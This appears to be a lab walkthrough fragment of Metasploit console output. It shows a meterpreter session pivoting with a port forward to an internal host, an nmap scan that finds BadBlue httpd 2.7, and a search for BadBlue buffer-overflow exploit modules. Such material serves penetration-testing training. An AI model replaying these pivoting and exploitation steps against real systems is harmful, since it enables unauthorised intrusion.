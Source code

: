```
msf6 auxiliary(scanner/portscan/tcp) > sessions 1
[*] Starting interaction with victim-1...

meterpreter > portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]


OPTIONS:

    -L <opt>  Forward: local host to listen on (optional). Reverse: local host to connect to.
    -R        Indicates a reverse port forward.
    -h        Help banner.
    -i <opt>  Index of the port forward entry to interact with (see the "list" command).
    -l <opt>  Forward: local port to listen on. Reverse: local port to connect to.
    -p <opt>  Forward: remote port to connect to. Reverse: remote port to listen on.
    -r <opt>  Forward: remote host to connect to.
meterpreter > portfwd add -l 1234 -p 80 -r 10.0.17.144
[*] Local TCP relay created: :1234 <-> 10.0.17.144:80
meterpreter > 
Background session victim-1? [y/N]  

```

```
http://127.0.0.1:1234/
```

```
root@attackdefense:~# netstat -antp
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name             
tcp        0      0 0.0.0.0:1234            0.0.0.0:*               LISTEN      527/ruby                    
tcp        0      0 10.10.16.3:4444         10.0.28.68:49220        ESTABLISHED 527/ruby
```

```
msf6 auxiliary(scanner/portscan/tcp) > db_nmap -sS -sV -p 1234 localhost
[*] Nmap: Starting Nmap 7.91 ( https://nmap.org ) at 2023-03-08 19:53 IST
[*] Nmap: Nmap scan report for localhost (127.0.0.1)
[*] Nmap: Host is up (0.000045s latency).
[*] Nmap: Other addresses for localhost (not scanned): ::1
[*] Nmap: PORT     STATE SERVICE VERSION
[*] Nmap: 1234/tcp open  http    BadBlue httpd 2.7
[*] Nmap: Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 15.86 seconds
```

```
msf6 auxiliary(scanner/portscan/tcp) > search BadBlue

Matching Modules
================

   #  Name                                       Disclosure Date  Rank   Check  Description
   -  ----                                       ---------------  ----   -----  -----------
   0  exploit/windows/http/badblue_ext_overflow  2003-04-20       great  Yes    BadBlue 2.5 EXT.dll Buffer Overflow
   1  exploit/windows/http/badblue_passthru      2007-12-10       great  No     BadBlue 2.72b PassThru Buffer Overflow


```